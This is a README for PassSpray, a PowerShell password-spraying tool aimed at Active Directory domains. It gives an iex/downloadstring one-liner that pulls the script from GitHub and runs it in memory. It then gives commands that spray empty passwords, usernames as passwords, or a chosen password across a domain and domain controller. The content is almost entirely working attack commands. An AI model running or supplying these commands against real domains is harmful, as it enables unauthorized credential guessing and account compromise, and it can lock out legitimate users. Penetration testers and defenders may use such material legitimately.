 # PassSpray
Domain Password Spray

Important: Spraying passwords increases the Bad Pwd Count of the user you are trying to validate credentials for (for each wrong attempt)

### Load PassSpray in memory
```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/PassSpray/main/PassSpray.ps1')
```

### Spray Empty password
```
Invoke-PassSpray
```

### Spray UserName as a password
```
Invoke-PassSpray -UserAsPassword
```

### Spray a password across the Domain
```
Invoke-PassSpray -Password P@ssw0rd!
```

### Spray a password across the Domain - Specify Domain and DC
```
Invoke-PassSpray -Password P@ssw0rd! -Domain ferrari.local -DomainController DC01.ferrari.local
```
